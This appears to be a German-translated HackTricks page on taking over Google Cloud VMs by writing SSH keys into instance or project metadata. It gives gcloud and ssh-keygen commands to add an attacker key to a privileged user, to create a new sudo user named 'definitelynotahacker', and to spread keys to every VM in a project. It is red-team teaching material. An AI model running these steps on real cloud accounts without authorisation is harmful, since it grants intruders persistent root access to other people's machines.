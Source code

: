 # GCP - Add Custom SSH Metadata

## GCP - Add Custom SSH Metadata

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Modifying the metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Die Modifikation von Metadaten auf einer Instanz könnte zu **erheblichen Sicherheitsrisiken führen, wenn ein Angreifer die erforderlichen Berechtigungen erlangt**.

#### **Incorporation of SSH Keys into Custom Metadata**

Auf GCP führen **Linux-Systeme** häufig Skripte aus der [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) aus. Ein kritischer Bestandteil davon ist der [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), der dazu dient, **regelmäßig** den Metadaten-Endpunkt der Instanz auf **Updates der autorisierten SSH-Öffentlichen Schlüssel** zu überprüfen.

Wenn ein Angreifer also benutzerdefinierte Metadaten ändern kann, könnte er den Daemon dazu bringen, einen neuen öffentlichen Schlüssel zu finden, der verarbeitet und **in das lokale System integriert** wird. Der Schlüssel wird in die Datei `~/.ssh/authorized_keys` eines **bestehenden Benutzers hinzugefügt oder möglicherweise wird ein neuer Benutzer mit `sudo`-Rechten erstellt**, abhängig vom Format des Schlüssels. Und der Angreifer wird in der Lage sein, den Host zu kompromittieren.

#### **Add SSH key to existing privileged user**

1. **Examine Existing SSH Keys on the Instance:**
*   Führen Sie den Befehl aus, um die Instanz und ihre Metadaten zu beschreiben, um vorhandene SSH-Schlüssel zu finden. Der relevante Abschnitt in der Ausgabe befindet sich unter `metadata`, speziell dem Schlüssel `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Achten Sie auf das Format der SSH-Schlüssel: Der Benutzername steht vor dem Schlüssel, getrennt durch einen Doppelpunkt.
2. **Prepare a Text File for SSH Key Metadata:**
* Speichern Sie die Details der Benutzernamen und ihrer entsprechenden SSH-Schlüssel in einer Textdatei mit dem Namen `meta.txt`. Dies ist wichtig, um die vorhandenen Schlüssel zu erhalten, während neue hinzugefügt werden.
3. **Generate a New SSH Key for the Target User (`alice` in this example):**
*   Verwenden Sie den Befehl `ssh-keygen`, um einen neuen SSH-Schlüssel zu generieren, wobei sichergestellt wird, dass das Kommentarfeld (`-C`) mit dem Zielbenutzernamen übereinstimmt.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Fügen Sie den neuen öffentlichen Schlüssel zu `meta.txt` hinzu, indem Sie das Format nachahmen, das in den Metadaten der Instanz gefunden wurde.
4. **Update the Instance's SSH Key Metadata:**
*   Wenden Sie die aktualisierten SSH-Schlüsselmetadaten auf die Instanz an, indem Sie den Befehl `gcloud compute instances add-metadata` verwenden.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Access the Instance Using the New SSH Key:**
*   Verbinden Sie sich mit der Instanz über SSH unter Verwendung des neuen Schlüssels und greifen Sie auf die Shell im Kontext des Zielbenutzers (`alice` in diesem Beispiel) zu.

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Create a new privileged user and add a SSH key**

Wenn kein interessanter Benutzer gefunden wird, ist es möglich, einen neuen zu erstellen, dem `sudo`-Rechte gegeben werden:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH-Schlüssel auf Projektebene <a href="#sshing-around" id="sshing-around"></a>

Es ist möglich, den Zugriff auf SSH für mehrere virtuelle Maschinen (VMs) in einer Cloud-Umgebung zu erweitern, indem **SSH-Schlüssel auf Projektebene angewendet werden**. Dieser Ansatz ermöglicht den SSH-Zugriff auf jede Instanz innerhalb des Projekts, die nicht ausdrücklich die projektweiten SSH-Schlüssel blockiert hat. Hier ist eine zusammengefasste Anleitung:

1. **SSH-Schlüssel auf Projektebene anwenden:**
*   Verwenden Sie den Befehl `gcloud compute project-info add-metadata`, um SSH-Schlüssel aus `meta.txt` zu den Metadaten des Projekts hinzuzufügen. Diese Aktion stellt sicher, dass die SSH-Schlüssel in allen VMs des Projekts erkannt werden, es sei denn, eine VM hat die Option "Projektweite SSH-Schlüssel blockieren" aktiviert.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH in Instanzen mit projektweiten Schlüsseln:**
* Mit den projektweiten SSH-Schlüsseln können Sie in jede Instanz innerhalb des Projekts SSH-en. Instanzen, die projektweite Schlüssel nicht blockieren, akzeptieren den SSH-Schlüssel und gewähren Zugriff.
* Eine direkte Methode, um in eine Instanz SSH zu gelangen, ist die Verwendung des Befehls `gcloud compute ssh [INSTANCE]`. Dieser Befehl verwendet Ihren aktuellen Benutzernamen und die auf Projektebene festgelegten SSH-Schlüssel, um den Zugriff zu versuchen.

## Referenzen

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
